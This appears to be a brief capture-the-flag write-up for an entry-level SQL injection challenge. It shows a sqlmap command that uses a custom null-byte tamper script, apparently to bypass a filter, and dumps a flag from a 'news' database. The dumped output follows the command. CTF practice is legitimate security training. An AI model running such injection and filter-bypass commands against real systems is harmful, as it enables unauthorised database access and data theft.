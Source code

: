 <h1>Okay it's a entry level sqli</h1>
the interesting part here is to write a sqlmap tamper by myself, it's stupid easy as well.

<h1>Solve:</h1>
<pre>
<code>
sqlmap -r header.txt --tamper ./nullbyte.py --technique=U -D news -T flag -C flag --dump --batch
</code>
Database: news
Table: flag
[1 entry]
+--------------------------+
| flag                     |
+--------------------------+
| flag{W4f_bY_paSS_f0R_CI} |
+--------------------------+
    
</pre>

